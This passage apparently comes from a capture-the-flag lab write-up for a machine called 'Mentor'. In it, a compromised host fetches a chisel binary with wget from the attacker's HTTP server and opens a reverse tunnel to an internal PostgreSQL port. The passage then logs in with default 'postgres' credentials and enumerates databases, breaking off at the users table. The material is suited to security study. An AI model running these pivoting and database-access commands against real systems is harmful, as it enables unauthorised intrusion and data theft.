 ```bash
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
mv chisel_1.7.7_linux_amd64.gz chisel
chmod 700 chisel
python -m http.server
```

- On `svc`:

```bash
wget http://10.10.16.3:8000/chisel
chmod +x chisel
```

- on `Host`:

```bash
sudo ./chisel server --port 10015 --reverse
```

- On `svc`

```bash
./chisel client 10.10.16.3:10015 10.10.11.193:5432:172.22.0.1:5432
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230123060900.png)

- On `Host` connect to the database:

```bash
psql -h 127.0.0.1 -U "postgres" -p 5432
Password: postgres
```

- List databases:

```postgres
\list
```

`\list` - is a command in the PostgreSQL command-line client (`psql`) that lists all of the databases on the current PostgreSQL server. It will also show the owner of the database and the encoding used by the database.
- Select database `mentorquotes_db`:

```postgres
\c mentorquotes_db
```

`\c database` - is a command in `psql` that allows you to connect to a specific database on the current PostgreSQL server. The `database` argument specifies the name of the database that you want to connect to. Once you are connected to a database, all subsequent commands will be executed on that database.
- Show tables:

```postgres
\d
```

`\d` - is a command in `psql` that shows the list of tables, views, and sequences in the currently connected database. Additionally, you can use `\d table_name` to display the columns and their types, constraints and triggers of a specific table.
- Show all content from the `users` table:
